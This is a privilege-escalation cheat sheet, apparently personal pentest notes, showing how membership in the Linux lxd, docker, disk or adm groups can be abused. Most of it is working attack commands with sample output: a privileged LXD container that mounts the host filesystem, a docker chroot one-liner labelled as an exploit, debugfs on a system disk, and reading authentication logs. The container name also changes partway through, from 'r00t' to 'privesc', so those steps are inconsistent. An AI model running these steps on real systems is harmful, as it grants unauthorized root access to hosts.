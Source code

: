 # LXC / LXD

**LXD** is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at `/mnt/root`

```bash
devops@NIX02:~$ id

uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```

Unzip the **Alpine image** → A minimal Docker image based on Alpine Linux.

```bash
unzip alpine.zip 
#output
Archive:  alpine.zip
extracting: 64-bit Alpine/alpine.tar.gz  
inflating: 64-bit Alpine/alpine.tar.gz.root  
cd 64-bit\ Alpine
```

Import the local image.

```bash
lxc image import alpine-v3.18-x86_64-20230607_1234.tar.gz --alias alpine
lxc image list
```

Start a privileged container with the `security.privileged` set to `true` t**o run the container without a UID** mapping, **making the root user in the container the same as the root user on the host.**

```bash
lxc init alpine r00t -c security.privileged=true
```

Mount the host file system.

```bash
lxc config device add r00t host-root disk source=/ path=/mnt/root recursive=true
```

spawn a shell inside the container instance

```bash
lxc start r00t

lxc exec privesc /bin/bash 
lxc exec privesc /bin/sh
# try **sh** shell because alpine is light 
```

***

***

## Docker

discover groups

```bash
id

uid=1001(user) gid=1001(user) groups=1001(user),**999(docker)**
```

which meaning u can run docker with any privilege like the root user

```bash
# exploit
docker run -v /:/mnt --rm -it ubuntu chroot /mnt
```

***

***

## Disk

if user found in disk group that’s meaning this user can write on any system disks like `/dev/sda1`

```bash
id

groups=1001(user),6(disk
```

```bash
# exploit
sudo debugfs /dev/sda1
```

***

***

## ADM

if user found in Adm group that’s meaning this user can read logs on the system `/var/log`

```bash
id

groups=1001(user),4(adm)
```

```bash
cat /var/log/auth.log
cat /var/log/cron.log
```

***

[Lab](https://www.notion.so/Lab-1de1d1e7e13c8089a327fdd818909917?pvs=21)
